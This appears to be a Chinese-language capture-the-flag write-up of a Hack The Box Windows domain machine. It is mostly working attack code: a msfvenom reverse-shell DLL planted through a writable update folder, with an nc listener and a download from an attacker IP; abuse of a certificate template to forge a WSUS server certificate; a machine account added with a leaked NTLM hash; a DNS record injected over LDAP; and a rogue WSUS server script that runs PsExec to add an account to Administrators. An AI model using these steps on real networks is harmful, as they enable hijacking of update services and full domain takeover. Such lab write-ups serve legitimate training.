

查看`UpdateMonitor.exe`文件的log文件

```PowerShell
cat "C:\ProgramData\UpdateMonitor\Logs\monitor.log"
```

log文件内容如下：

1. 每 3 分钟自动运行
2. 它会去`C:\ProgramData\UpdateMonitor\`下找**Settings_Update.zip**文件
3. `ProgramData\UpdateMonitor\`可写
```powershell
icacls "C:\ProgramData\UpdateMonitor"
```



4. 制作含有**木马DLL** 的恶意zip文件放入`C:\ProgramData\UpdateMonitor\`文件夹下
5. 任务运行时，会加载恶意DLL文件,执行恶意代码
6. 因为任务是**jaylee.clifton**身份运行，可以直接拿到权限

```bash
[2026-04-20 11:11:16] Starting Sentinel Update Check...
[2026-04-20 11:11:16] Checking for update on core server...
[2026-04-20 11:11:16] Info: Core did not find file Settings_Update.zip
[2026-04-20 11:11:16] Last status: File not found on core
[2026-04-20 11:11:16] Checking for update on local server...
[2026-04-20 11:11:16] No updates found locally: C:\ProgramData\UpdateMonitor\Settings_Update.zip.
[2026-04-20 11:11:16] Loading update applier: C:\Program Files\UpdateMonitor\bin\settings_update.dll
[2026-04-20 11:11:16] Failed to load settings_update.dll. Error code: 126
[2026-04-20 11:11:16] Update check completed.
.......
```

### jaylee.clifton

```shell
# 制作恶意x32dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.129.30.59	 LPORT=4445 -a x86 --platform windows -f dll -o settings_update.dll
# 打包恶意zip
zip Settings_Update.zip settings_update.dll
# 监听4445端口
nc -lvnp 4445
# 自建http服务器
python -m http.server 80
```
上传恶意zip文件
```powershell
(New-Object System.Net.WebClient).DownloadFile("http://10.129.30.59	/Settings_Update.zip","C:\ProgramData\UpdateMonitor\Settings_Update.zip")
```



### ADCS证书枚举

```bash
certipy-ad find \
  -u 'msa_health$@logging.htb' -hashes ':603fc24ee01a9409f83c9d1d701485c5' \
  -target DC01.logging.htb -dc-ip TARGET_IP \
  -stdout -enabled
```

注意到一个自定义名为`UpdateSrv`的证书
| 配置项 | 值 | 风险点 |
| --- | --- | --- |
| 注册权限 | LOGGING.HTB\IT | jaylee 所在的 IT 组有权限申请该模板证书 |
| Enrollee Supplies Subject | True | 申请者可自由指定证书的 DNS / 主体名称（ESC1 漏洞核心条件） |
| 扩展密钥用法 (EKU) | 仅Server Authentication | 证书仅用于服务器身份验证，无法直接用于 Kerberos 登录，但可冒充内网 HTTPS 服务 |



### wsus.csr文件伪造

```python
# build_wsus_csr.py
from cryptography import x509
from cryptography.x509.oid import NameOID
from cryptography.hazmat.primitives import hashes, serialization
from cryptography.hazmat.primitives.asymmetric import rsa

pk = rsa.generate_private_key(public_exponent=65537, key_size=2048)
open('wsus_key.pem', 'wb').write(pk.private_bytes(
    serialization.Encoding.PEM,
    serialization.PrivateFormat.TraditionalOpenSSL,
    serialization.NoEncryption()))

csr = (x509.CertificateSigningRequestBuilder()
       .subject_name(x509.Name([
           x509.NameAttribute(NameOID.COMMON_NAME, 'wsus.logging.htb')]))
       .add_extension(x509.SubjectAlternativeName([
           x509.DNSName('wsus.logging.htb'), x509.DNSName('wsus')]), critical=False)
       .sign(pk, hashes.SHA256()))
open('req.csr', 'wb').write(csr.public_bytes(serialization.Encoding.DER))
```
```powershell
# 上传req.csr文件到C:\ProgramData\UpdateMonitor\目录下
(New-Object System.Net.WebClient).DownloadFile("http://10.129.30.59	/req.csr","C:\ProgramData\UpdateMonitor\req.csr")
```

### ADCS证书申请
```powershell
# jaylee.clifton申请证书
cmd /c "echo N | certreq -f -submit -attrib ""CertificateTemplate:UpdateSrv"" -config ""DC01.logging.htb\logging-DC01-CA"" ""C:\ProgramData\UpdateMonitor\req.csr"" ""C:\ProgramData\UpdateMonitor\cert.cer"" >nul 2>&1"
```



#### PFX证书

```bash
# 生成PFX证书
openssl pkcs12 -export \
  -out wsus_srv.pfx \
  -inkey wsus_key.pem \
  -in   cert.cer \
  -passout pass:
# 提取证书和私钥
openssl pkcs12 -in wsus_srv.pfx -out wsus_srv_cert.pem -clcerts -nokeys -passin pass:
openssl pkcs12 -in wsus_srv.pfx -out wsus_srv_key.pem  -nocerts  -nodes  -passin pass:
# 查看证书扩展
openssl x509 -in wsus_srv_cert.pem -noout -subject -ext subjectAltName
```



### DNS劫持

msa_health$持有`SeMachineAccountPrivilege`,允许创建新机器用户,新计算机账户默认可以在`DomainDnsZones`分区创建**DNS**节点对象

#### 创建新机器账户

```bash
impacket-addcomputer \
  -computer-name 'zhaha01$' -computer-pass '@Zhaha12345' \
  -hashes ':603fc24ee01a9409f83c9d1d701485c5' \
  -dc-ip 10.129.30.59 'logging.htb/msa_health$'
```



#### 创建DNS节点

通过`LDAP`插入 A 记录，采用 MS-DNSP 二进制格式：

```python
# add_dns.py
import ldap3, struct

ATTACKER_IP = '10.10.16.13'
ip = bytes(int(x) for x in ATTACKER_IP.split('.'))
# DNS_RPC_RECORD_A: DataLen(2) Type(2) Ver(1) Rank(1) Flags(2) Serial(4) Ttl(4) Reserved(4) TimeStamp(4) Data(4)
record = struct.pack('<HHBBHIIII', 4, 1, 5, 0xF0, 0, 1, 180, 0, 0) + ip

s = ldap3.Server('10.129.30.59', port=389)
c = ldap3.Connection(s, user='logging.htb\\zhaha01$', password='@Zhaha12345',
                     authentication=ldap3.NTLM, auto_bind=True)
c.add('DC=wsus,DC=logging.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=logging,DC=htb',
      ['top', 'dnsNode'],
      {'dnsRecord': [record], 'dnsTombstoned': 'FALSE'})
print(c.result)
```



#### 验证DNS劫持

```powershell
# 刷新dns缓存
ipconfig /flushdns
# 解析域名
Resolve-DnsName wsus.logging.htb
```



### 搭建恶意WSUKS服务器

下载具有合法Microsoft签名的psexec64.exe

```shell
wget https://live.sysinternals.com/tools/PsExec64.exe
```

```python
# run_wsuks.py — serve-only mode on both 8530 (HTTP content) and 8531 (HTTPS WSUS)
import ssl, sys, os, logging, threading
from functools import partial
from http.server import HTTPServer

# Stub the ARP / nftables module before wsuks' server imports it
sys.modules['wsuks.lib.router'] = type(sys)('stub')
sys.modules['wsuks.lib.router'].Router = object

from wsuks.lib.logger import initLogger
initLogger(debug=False)
from wsuks.lib.wsusserver import WSUSUpdateHandler, WSUSBaseServer

HOST = '10.10.16.13'
EXE  = './PsExec64.exe'

COMMAND = ('/accepteula /s cmd.exe /c "'
           'net localgroup administrators msa_health$ /add 2>&1 > C:\\Share\\Logs\\PWN.txt & '
           'net localgroup administrators >> C:\\Share\\Logs\\PWN.txt 2>&1 & '
           'icacls C:\\Share\\Logs\\PWN.txt /grant Everyone:F"')

exe_bytes = open(EXE, 'rb').read()
h = WSUSUpdateHandler(exe_bytes, os.path.basename(EXE), f'http://{HOST}:8530')
h.set_resources_xml(COMMAND)
log = logging.getLogger('wsuks')

def serve(port, use_tls):
    httpd = HTTPServer((HOST, port), partial(WSUSBaseServer, h))
    if use_tls:
        ctx = ssl.SSLContext(ssl.PROTOCOL_TLS_SERVER)
        ctx.load_cert_chain('./wsus_srv_cert.pem', './wsus_srv_key.pem')
        httpd.socket = ctx.wrap_socket(httpd.socket, server_side=True)
        log.info(f'HTTPS WSUS on {HOST}:{port}')
    else:
        log.info(f'HTTP content on {HOST}:{port}')
    httpd.serve_forever()

threading.Thread(target=serve, args=(8530, False), daemon=True).start()
serve(8531, True)
```



### Administrator

等待片刻,服务器自动更新



查看`C:\Share\Logs\PWN.txt`

成功添加`msa_health$`到`Administrators`组


成功进入`Administrator`家目录



